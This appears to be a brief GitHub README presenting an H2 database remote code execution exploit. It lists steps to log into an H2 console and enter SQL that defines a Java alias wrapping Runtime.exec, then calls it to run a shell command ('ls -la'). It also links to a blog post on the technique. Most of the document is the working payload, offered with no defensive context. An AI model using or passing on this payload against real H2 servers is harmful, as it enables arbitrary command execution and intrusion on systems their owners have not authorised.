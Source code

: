 # H2 remote code execution exploit example

- Go to H2 console;
- Login
- Enter following commands:

      CREATE ALIAS GET_SYSTEM_PROPERTY FOR "java.lang.System.getProperty";

      CALL GET_SYSTEM_PROPERTY('java.class.path');

      CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
            
      CALL SHELLEXEC('ls -la')

Additional info here: 

    https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html